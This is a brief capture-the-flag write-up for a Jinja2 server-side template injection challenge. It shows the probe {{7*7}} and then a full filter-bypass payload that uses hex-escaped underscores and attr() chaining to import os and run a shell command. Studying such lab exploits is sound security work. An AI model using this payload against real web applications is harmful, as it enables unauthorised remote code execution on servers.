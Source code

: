 ### SSTI2 - Challenge 488

Accesss to the web, try  `{{7*7}}`, got result `49`

![49](image.png)

maybe jinja, try to exploit like [ssti1](../../easy/ssti1/ssti.md)

It's not work, filtered some character `{}[__]`

Try some encode, but nothings happen

searching on internet [OnSecurity](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

exploited.

![alt text](image-1.png)
